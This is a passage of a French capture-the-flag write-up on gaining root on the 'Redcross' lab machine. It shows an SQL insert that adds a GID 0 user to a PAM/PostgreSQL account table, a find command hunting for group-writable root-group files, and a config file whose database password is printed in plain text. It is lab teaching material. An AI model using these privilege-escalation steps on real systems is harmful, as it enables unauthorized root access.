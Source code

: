 ```plain
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
```

Same Old Story
--------------

On peut se servir du PAM/PostgreSQL pour obtenir notre accès root aussi. On s'accorder d'abord un GID 0 :  

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 0, '/');
```

On peut ensuite fouiller les fichiers potentiellement intéressants auquel on n'avait pas accès :  

```bash
find / -group 0 -perm -g+w -type f -not -path '/proc/*' 2> /dev/null
```

Ce dernier est ressorti :  

```plain
-rw-rw---- 1 root root 540 Jun  8  2018 /etc/nss-pgsql-root.conf
```

Avec le contenu suivant :  

```plain
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);
```

Ces identifiants nous donnent contrôle total sur la table *passwd\_table*, on peut alors créer un nouvel utilisateur avec uid et gid 0 et utiliser *su* pour récupérer les droits sur le système :)  

Under the hood
--------------

Que se trame t-il derrière le compte root ?  

```plain
devloop3@redcross:/root$ ls -la
total 64
drwxr-x---  6 root root  4096 Oct 31 12:33 .
drwxr-xr-x 22 root root  4096 Jun  3  2018 ..
-rw-------  1 root root     0 Oct 31 12:33 .bash_history
-rw-r--r--  1 root root  3380 Jun 10  2018 .bashrc
drwxr-xr-x  3 root root  4096 Jun  6  2018 bin
drwxrwxr-x 11 root root  4096 Jun  7  2018 Haraka-2.8.8
drwxr-xr-x  4 root root  4096 Jun  7  2018 .npm
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    24 Jun 10  2018 .psqlrc
-rw-------  1 root root  1024 Jun  3  2018 .rnd
-rw-------  1 root root    33 Jun  8  2018 root.txt
-rw-r--r--  1 root root    74 Jun  6  2018 .selected_editor
drwx------  4 root root  4096 Jun  3  2018 .thumbnails
-rw-------  1 root root 12885 Oct 31 12:30 .viminfo
```
